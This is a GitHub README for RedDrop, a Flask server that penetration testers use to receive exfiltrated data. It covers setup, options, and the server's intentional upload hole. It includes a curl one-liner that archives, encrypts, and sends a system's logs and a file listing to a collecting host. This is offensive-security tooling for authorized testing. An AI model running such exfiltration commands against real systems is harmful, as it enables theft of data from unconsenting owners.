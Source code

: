 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [File Upload](docs/FileUpload.md)
- [Automatic Payload Processing](docs/PayloadProcessing.md)
- [Automatic Archive Extraction](docs/ArchiveExtraction.md)
- [JSON Logging](docs/JSONLogging.md)
- [Configurable Options](docs/Configurations.md)
- [Authorization Rules](docs/AuthorizationRules.md)

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

## Demo
[![Demo](https://img.youtube.com/vi/x9KmGCfyyZ0/0.jpg)](https://www.youtube.com/watch?v=x9KmGCfyyZ0)
---

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Utilize the [Authorization Rules](docs/AuthorizationRules.md) feature of RedDrop to drop requests which do not meet your criteria. 
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
mkdir uploads logs
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default:
                        0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML
                        (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can
                        be used more than once to define multiple
                        process_list functions. Use this flag in
                        the order in which you wish to process
                        received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on
                        detected data. This option is enabled by
                        default, but should be disabled (--no-
                        auto-process) when you receive output you
                        don't expect. Such as in the case of
                        Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the
                        process with the `-p` flag. (default:
                        True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the
                        server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt.
                        (default: EncryptMe)
  -r AUTHORIZATION_RULES, --authorization_rules AUTHORIZATION_RULES
                        Specify an Authorization Rule to deny
                        requests which do not match the provided
                        Key and Regex value pair. Specified as
                        <Key>=<Regex>. (default: None)
  -t TAGS, --tag TAGS   Tag data received during this session in the logs as well as the directory files are uploaded to. Example:
                        -t log4j -t acme.org (default: None)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality

